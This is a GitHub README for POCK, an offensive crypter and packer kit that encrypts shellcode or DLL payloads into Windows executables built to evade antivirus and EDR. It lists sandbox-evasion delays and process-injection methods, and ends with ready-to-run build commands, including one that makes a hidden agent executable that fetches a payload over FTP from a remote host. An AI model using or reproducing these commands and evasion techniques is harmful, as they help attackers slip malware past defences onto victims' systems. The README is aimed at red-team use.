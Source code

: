 # POCK - Polymorphic Obfuscation and Crypter Kit

**“UnPACKable payloads start here!”**  
A customizable binary packer designed for red teamers, malware researchers, and offensive security professionals.

---

## Overview

POCK (Polymorphic Obfuscation and Crypter Kit) is a modular crypter and packer framework that encrypts and embeds raw payloads into stealthy Windows executables. It is built to help offensive operators evade endpoint detection and response (EDR) and antivirus solutions by implementing polymorphic stubs, anti-sandbox logic, and multiple injection methods.

POCK supports:

- Payload types: raw shellcode (`.bin`) or reflective DLLs (`.dll`)
- Multiple encryption options: AES or XOR
- Staging payloads externally via FTP or embedding them directly
- Injection techniques such as:
  - Asynchronous Procedure Call (APC)
  - Early Bird APC
  - Fiber-based execution
- Anti-analysis features: entropy delay, Fibonacci and factorial loops, sleep timer
- Stub polymorphism via Jinja2-based template randomization
- Hidden compilation for stealth or console mode for debugging

---

## Features

- AES and XOR encryption support
- Jinja2-powered polymorphic stub generation
- Built-in anti-analysis and sandbox evasion logic
- Supports both embedded and staged payloads
- Multiple code injection options
- Configurable execution delays
- Generates fully native Windows executables using `mingw-w64`

---

## Requirements

- Python 3.8 or higher
- [pycryptodome](https://pypi.org/project/pycryptodome/)
- [jinja2](https://pypi.org/project/Jinja2/)
- MinGW-w64 cross-compiler (e.g. `x86_64-w64-mingw32-gcc`)

---

### Install Python dependencies:

```bash
pip install -r requirements.txt
```
Usage:
```bash
python3 POCK.py -i <input_file> -o <output_file> -e <encryption> -k <key> -t <payload_type> [options]
```

---

**Required Arguments**

**-i, --input**  
**Path to raw shellcode (.bin) or DLL (.dll) file**

**-o, --output**  
**Name of the compiled output executable**

**-e, --encryption**  
**Encryption method to use: aes or xor**

**-k, --key**  
**Key to encrypt the payload**

**-t, --type**  
**Payload type: shellcode or dll**

---

**Optional Arguments**

**--inject <method>**  
Injection method: apc, earlybird, fiber

**--url <ftp_url>**  
FTP URL for remote payload staging

**--ftp-user <username>**  
FTP username for authentication

**--ftp-pass <password>**  
FTP password for authentication

**--entropy**  
Add entropy-based execution delay

**--fibonacci**  
Add Fibonacci loop delay

**--factorial**  
Add factorial computation delay

**--sleep <seconds>**  
Sleep for specified seconds before executing

**--hide**  
Compile stub as a hidden (GUI) executable instead of console

---

**## Example Commands**

```bash
# Generating an embedded payload
python3 POCK.py -i payload.bin -o packed.exe -e aes -k <AES Key> -t shellcode --inject apc --entropy --fibonacci --sleep 15 --hide

# Generating a staged stub
python3 POCK.py -i beacon.dll -o agent.exe -e xor -k RedTeamFTW -t dll --url ftp://192.168.50.219/payload.bin --ftp-user user --ftp-pass pass --inject fiber --hide

